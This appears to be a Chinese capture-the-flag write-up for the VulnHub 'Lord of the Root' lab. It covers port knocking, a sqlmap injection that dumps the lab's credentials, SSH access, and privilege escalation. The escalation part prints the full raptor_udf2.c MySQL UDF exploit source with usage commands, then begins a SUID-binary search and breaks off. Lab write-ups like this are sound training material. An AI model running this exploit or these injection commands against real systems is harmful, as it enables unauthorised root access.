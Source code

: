 # Lord of the Root 1.0.1

下载地址：https://download.vulnhub.com/lordoftheroot/LordOfTheRoot\_1.0.1.ova

## 信息收集

发现靶场IP地址：`192.168.32.153`

![image-20220609172940244](../../.gitbook/assets/image-20220609172940244.png)

扫描对外端口，发现只开启22端口。

![image-20220609173428050](../../.gitbook/assets/image-20220609173428050.png)

SSH连接，发现这段提示：`Easy as 1,2,3`

![image-20220609173513789](../../.gitbook/assets/image-20220609173513789.png)

使用knock 对1，2，3端口进行敲击

```
┌──(root💀kali)-[~/Desktop]
└─# knock 192.168.32.153 1 2 3 
```

可以看到1337端口已经打开。

![image-20220609175312516](../../.gitbook/assets/image-20220609175312516.png)

浏览器访问1337端口

![image-20220609175447348](../../.gitbook/assets/image-20220609175447348.png)

收集WEB系统的基本信息

![image-20220609175649589](../../.gitbook/assets/image-20220609175649589.png)

访问robots.txt

![image-20220609180139963](../../.gitbook/assets/image-20220609180139963.png)

查看页面源代码，找到一串疑似base64加密字符串。

```
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![image-20220609180212802](../../.gitbook/assets/image-20220609180212802.png)

这段字符串是经过**两层**base64加密，解密成功获取到一下URL

```
/978345210/index.php
```

![image-20220610094542855](../../.gitbook/assets/image-20220610094542855.png)

访问URL

![image-20220610094734027](../../.gitbook/assets/image-20220610094734027.png)

## 注入

使用SQLMAP进行SQL注入攻击

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u http://192.168.32.153:1337/978345210/index.php --forms --dbs --risk=3 --level=5 --dbms=mysql --batch
```

获取`users`表信息

```
Database: Webapp
Table: Users
[5 entries]
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+
```

可以ssh到**smeagol**账号

![image-20220610100725692](../../.gitbook/assets/image-20220610100725692.png)

## 提权

### 内核提权

这个靶场有`CVE-2015-8660`提权漏洞

![image-20220610101119586](../../.gitbook/assets/image-20220610101119586.png)

### UDF提权

EXP

```
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work 
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol 
 * that corresponds to the main xxx() function. These auxiliary symbols 
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and 
 * xxx_add() functions". -- User Defined Functions Security Precautions 
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

// milw0rm.com [2006-02-20]
            
```

找到MySQL的账号密码

```
$db = new mysqli('localhost', 'root', 'darkshadow', 'Webapp');
```

![image-20220610103259037](../../.gitbook/assets/image-20220610103259037.png)

按照 EXP脚本提示，提权成功

![image-20220610104123154](../../.gitbook/assets/image-20220610104123154.png)

### 缓冲区溢出

学过缓冲区溢出提权，都会了解到SECRET文件夹目录，我们来找找

```
smeagol@LordOfTheRoot:/tmp$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 35300 Jul 15  2015 /bin/su
-rwsr-xr-x 1 root root 88752 Aug  4  2015 /bin/mount
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 67704 Aug  4  2015 /bin/umount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 7370 Sep 17  2015 /SECRET/door2/file
-rwsr-xr-x 1 root root 5150 Sep 22  2015 /SECRET/door1/file
-rwsr-xr-x 1 root root 7370 Sep 17  2015 /SECRET/door3/file
-rwsr-xr-x 1 root root 18168 Mar  4  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 45420 Jul 15  2015 /usr/bin/passwd
-rwsr-xr-x 1 root root 35916 Jul 15  2015 /usr/bin/chsh
-rwsr-xr-x 1 root root 44620 Jul 15  2015 /usr/bin/chfn
-rwsr-xr-x 1 root root 66252 Jul 15  2015 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 30984 Jul 15  2015 /usr/bin/newgrp
-rwsr-xr-x 1 root lpadmin 13672 Jun  4  2015 /usr/bin/lppasswd
-rwsr-xr-x 1 root root 18136 May  7  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 156708 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 9612 Feb 25  2015 /usr/lib/pt_chown
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
```

